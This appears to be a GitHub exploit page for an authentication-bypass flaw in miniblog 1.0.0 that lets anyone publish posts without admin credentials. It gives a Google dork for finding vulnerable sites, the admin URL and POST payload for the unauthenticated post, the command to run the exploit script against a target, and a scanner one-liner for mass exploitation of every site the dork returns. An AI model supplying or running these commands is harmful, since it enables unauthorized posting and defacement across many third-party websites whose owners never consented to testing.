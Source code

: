 - miniblog 1.0.0 CSRF 4ADD post
------

```
  # SCRIPT by:     [ I N U R L  -  B R A S I L ] - [ By GoogleINURL ]
  # EXPLOIT NAME:  xpl miniblog 1.0.0 CSRF 4ADD post/ INURL BRASIL
  # AUTOR:         Cleiton Pinheiro / Nick: googleINURL
  # Email:         inurlbr@gmail.com
  # Blog:          http://blog.inurl.com.br
  # Twitter:       https://twitter.com/googleinurl
  # Fanpage:       https://fb.com/InurlBrasil
  # Pastebin       http://pastebin.com/u/Googleinurl
  # GIT:           https://github.com/googleinurl
  # PSS:           http://packetstormsecurity.com/user/googleinurl
  # YOUTUBE:       http://youtube.com/c/INURLBrasil
  # PLUS:          http://google.com/+INURLBrasil
```

- DESCRIPTION 
------
Script makes a post without administrative credentials.

- INFO
------
```
  # DATA SUBMISSION WITHOUT VALIDATION

  # Vendor:  http://www.spyka.net/scripts/php/miniblo

  # Google Dork: intext:"Powered by miniblog" ext:php

  # POC:  http://{YOU_URL}/adm/admin.php?mode=add

  # SEND REQUEST POST: adddata[post_title]=TITLE&data[post_content]=<b>YOU_POST</b>&data[published]=1&miniblog_PostBack=Add
```

- EXECUTE
------
```
php xpl.php -t http://target.us
FILE_OUTPUT:  miniblog_vuln.txt
```

- EXPLOIT MASS USE SCANNER INURLBR
------
```
php inurlbr.php --dork 'intext:"Powered by miniblog" ext:php' -s output.txt --command-all 'php xpl.php -t _TARGET_'
```
More details about inurlbr scanner: https://github.com/googleinurl/SCANNER-INURLBR

```
[+] Discoverer Author: Mustafa Moshkela  
[+] REF COD POC: http://www.exploit4arab.net/exploits/1482
[+] Greets to: all members in iq-team.org
```
